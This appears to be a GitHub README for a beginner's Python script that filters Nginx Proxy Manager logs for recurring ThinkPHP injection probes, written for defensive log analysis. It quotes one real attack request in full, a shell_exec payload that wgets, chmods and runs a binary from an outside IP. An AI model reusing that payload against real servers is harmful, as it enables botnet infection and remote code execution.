 The idea behind this script comes from finding out a bunch of really strange requests to my Nginx Proxy Manager container that is open to the internet.
The requests in case are almost always identical to this:

`[13/Jan/2021:15:07:48 +0000] 400 - GET http localhost-nginx-proxy-manager "/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.174/bins/MwEIrNsdFa.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp'" [Client 220.127.239.7] [Length 154] [Gzip -] "Uirusu/2.0" "-"`

The client IP is always different from what I can tell so far and the IP that it tries to wget is almost always different, trying to run that wget command will give you an "Not Authorized" response. **This script is not a solution for this issue** it just goes trough your NPM logs and finds out all the requests similar to this and puts them in a different file, I started out with a log file with 370 requests and, after running this script I got 108 requests that match the one I posted above, keep in mind that these 370 requests come from a timespan of less than 36h. And yes I am aware that NPM does not use PHP so this attempt to inject an PHP script most likely never runs ence the 400 (bad request) response from NPM, *however the authors of this could move from trying to inject PHP payloads to injecting something else that could work!*

This script reads trough your Nginx Proxy Manager logs, specially the **default.log** file stored inside your npm directory, right now you need an copy of the logs directory inside the root of this script's folder with the name of *logs*, you also need to create a directory called **parsed** so that the script can write a file with all of the requests that it looks for. It also asks for your Public IP in order to filter out your own requests to your npm server.

After running the script it will tell you how many results it got and it will also create a file that stores all of the requests it finds inside the **parsed** directory inside a file called **parsed-default.log**

Right now this scripts only does this, however I'm going to keep developing this script until it is able to extract a list of IPs from the *parsed-default.log*, besides doing this, the script will also be able to tell if the same IP tries to make this request more than once, the point of this is to see if these requests come from all over the world or just from countries known to have botnets like this running, like Iran, China and so on. So far I can say that this is not the case, because I've already found IPs from Italy and the UK that seem residential IPs but further investigation is required to reach an conclusion.

For anyone thinking that bulk blocking the IP ranges that this script find keep in mind that these IPs could also be comming from countries in the world that usually are known for not having these kinds of requests and you could possibly block people that you actually want to access your services without even knowing.

And finally a disclaimer, I am by no means a Python expert, just started to learn it less than a month ago, so it's probably going to take a while before I'm able to filter out the requests into a list of IP's. If you are willing to help me improve this script onto something that could help the NPM developers develop an fix for this feel free to contact me.
